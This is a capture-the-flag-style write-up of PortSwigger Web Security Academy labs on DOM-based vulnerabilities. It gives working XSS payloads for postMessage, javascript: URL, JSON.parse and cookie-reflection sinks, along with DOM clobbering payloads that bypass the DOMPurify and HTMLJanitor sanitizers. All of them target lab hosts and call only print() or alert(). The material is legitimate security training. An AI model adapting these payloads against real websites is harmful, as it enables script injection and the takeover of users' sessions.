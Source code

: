 # DOM-based vulnerabilities

- https://portswigger.net/web-security/dom-based
- https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting/dom-clobbering

## DOM XSS using web messages

No `X-Frame-Options` header that would prevent loading this page in the `iframe` and additionally event listener preset for `message` event without origin verification that passes the input without sanitization to the `innerHtml` function.

Event listener for `message` event is our source, and `innerHtml` function is the sink.

Deliver below payload to the victim to solve the lab. It will load the victim page as an iframe and on load will post a message to all origins, causing vulnerable `message` event listener trigger.

```
<iframe src="https://0aa600ac04c124c89e1a8aa5009800fc.web-security-academy.net/" style="width: 100%; height: 100%;" frameBorder="0" onload='this.contentWindow.postMessage("<img src=X onerror=\"print()\"/>", "*")'></iframe>
```

## DOM XSS using web messages and a JavaScript URL

Same story as before, but this time `message` event listener tries to check whether provided data is the link and update `location.href` by it.

Unfortunately the code shown below does not check whether the provided data starts with `http:` or `https:`, but only if the data contains one of those strings, so it could be bypassed by providing input `javascript:print();//https:`, which when set to `location.href` executes code and calls `print()`

```
window.addEventListener('message', function(e) {
    var url = e.data;
    if (url.indexOf('http:') > -1 || url.indexOf('https:') > -1) {
        location.href = url;
    }
}, false);
```

To solve the lab we can deliver `iframe` containing vulnerable page, which onload posts a message which bypasses the `http` schema check and change `location.href` to `javascript:print()` code which calls the `print()` function.  

```
<iframe src="https://0a7200ce03bc3ad48289581c002500f5.web-security-academy.net/" style="width: 100%; height: 100%;" frameBorder="0" onload='this.contentWindow.postMessage("javascript:print();//https:", "*")'></iframe>
```

## DOM XSS using web messages and JSON.parse

Again no origin check and no `X-Frame-Options` type headers.

This time input is provided via json and `JSON.parse` function is called.
On message receival the page would create an `iframe` and depending on `type` key provided it will take different actions. When `type` is set to `load-channel` it sets `url` json value as iframe `src` without any sanitization.

To prove what can be done with it I have created an `iframe` with target website and executed the below command, which proved that when `iframe.src` is set to `javascript:` schema it will execute code. To make sure the code will not be executed in my website context, but in target website context `alert(document.domain)` is called, which proves we execute code in target page context.

```
document.querySelector("iframe").contentWindow.postMessage('{"type":"load-channel","url":"javascript:alert(document.domain)"}', '*')
```

In order to solve the lab we need to make the victim access below page containing vulnerable website in an `iframe` and making apriopriate `postMessage` call causing js execution.

```
<iframe src="https://0a7700ea031731ad82d2bfc000f8002b.web-security-academy.net/" onload='this.contentWindow.postMessage("{\"type\":\"load-channel\",\"url\":\"javascript:print()\"}", "*")'></iframe>
```

## DOM-based open redirection

`Back to blog` link is generated via `onlick` effect, which takes `url` query param without validation and sanitization and passes it to `location.href`. The query will be passed only if param starts with `http`, so it makes using `javascript:` pseudo protocol for code execution unusable.

```
<a href='#' onclick='returnUrl = /url=(https?:\/\/.+)/.exec(location); location.href = returnUrl ? returnUrl[1] : "/"'>Back to Blog</a>
```

To solve the lab, we need to access the url with open redirection to exploit server

```
https://0a7f004b034dd93b81637a8000cc00b5.web-security-academy.net/post?postId=7&url=https://exploit-0ad300ad037ad90381cd794e01dc0079.exploit-server.net/
```

## DOM-based cookie manipulation

Product details page contains js code, which sets the cookie value to `windows.location` without any sanitization or validation.

```
<script>
    document.cookie = 'lastViewedProduct=' + window.location + '; SameSite=None; Secure'
</script>
```

On the main page, the `lastViewedProduct` cookie is being reflected into the link. Upon changing it to some arbitrary value, like `TEST`, we can observe that the returned page has an `a` tag with `href` value set to `TEST`.

Since the value of the cookie is being reflected on the backend to the link tag, we can try to escape it. By accessing `https://0a5a007d03f480c580c803ff00c6004a.web-security-academy.net/product?productId=1&q='TEST` URL and then navigating to the homepage, we can see, that we break out from the tag with `'` char.

Now, accessing `/product?productId=1&q='autofocus onfocus="print()" x='` and then navigating to the home page, causes `onfocus` `print()` function to be executed immediately, by creating the `a` tag shown below

```
<a href='https://0a5a007d03f480c580c803ff00c6004a.web-security-academy.net/product?productId=1&q='autofocus onfocus="print()" x=''>Last viewed product</a>
```

To solve the lab, deliver to the victim below iframe, which automatically navigates between two sites, causing a `XSS`.

Unfortunately autofocusing `a` tag on `cross-origin` `iframe` was blocked, so to bypass this we can break through not only `a` tag `href` param, but the whole `a` tag itself and, since this is injected server-side, create a new a `script` tag.

```
<iframe src="https://0a5a007d03f480c580c803ff00c6004a.web-security-academy.net/product?productId=1&'><script>print()</script>" onload="if(!window.x)this.src='https://0a5a007d03f480c580c803ff00c6004a.web-security-academy.net';window.x=1;">
```

## Exploiting DOM clobbering to enable XSS

Using DOM Invader we can quickly discover `defaultAvatar` variable, which is assigned this way `let defaultAvatar = window.defaultAvatar || {avatar: '/resources/images/avatarDefault.svg'}`. Since `window.defaultAvatar` is not set by default when loading a page, and its content is then passed to `innerHtml` sink without sanitization with this reference `defaultAvatar.avatar`, which makes it a good sink.

Now we can try to clobber this value by creating the comment with proper html. Below try was not successful, because the content was URL encoded, which did not allow breaking out of the string:

```
<a id=defaultAvatar><a id=defaultAvatar name=avatar href='X" onerror=alert(1) x="'>
```

DOMPurify allows you to use the `cid:` protocol, which does not URL-encode double-quotes. This means you can inject an encoded double-quote that will be decoded at runtime. Using this the below payload worked and the next added comment had malicious avatar performing XSS.

```
<a id=defaultAvatar><a id=defaultAvatar name=avatar href='cid:X" onerror=alert(1) x="'>
```

## Clobbering DOM attributes to bypass HTML filters

We can notice the website uses `HTMLJanitor` for cleaning the body of the comments and the autor before passing them to `innerHtml` function. Looking at the Janitor config, we can notice allowed tags and their attributes:

```
input:{name:true,type:true,value:true},form:{id:true},i:{},b:{},p:{}
```

Using `form` and `input` tags we can clobber DOM properties, which will bypass the Janitor check. "Normally, the filter would loop through the `attributes` property of the `form` element and remove any blacklisted attributes. However, because the `attributes` property can be clobbered with the `input` element, the filter will loop through the input element instead. As the input element has an undefined length, the conditions for the for loop of the filter (for example `i<element.attributes.length`) will not be met, and the filter will simply move on to the next element instead. This results in the blacklisted attribute being ignored altogether by the filter"

Testing out theory with the code below proved that we can bypass the Janitor and execute code with onclick event:

```
<form onclick=alert(1)><input id=attributes>Click me
```

In order to auto execute code we can use `tabindex` - which will make the tag focusable - `autofocus` and `onfocus` event attributes. Update the comment to this:

```
<form tabindex=0 autofocus onfocus=print()><input id=attributes>
```

Now since every person accesing this page will trigger XSS, we can simply deliver to the victim link with redirection to this post with malicious comment.

```
<script>
location = "https://0a8000a1042868a2826ee20f00330052.web-security-academy.net/post?postId=5"
</script>
```
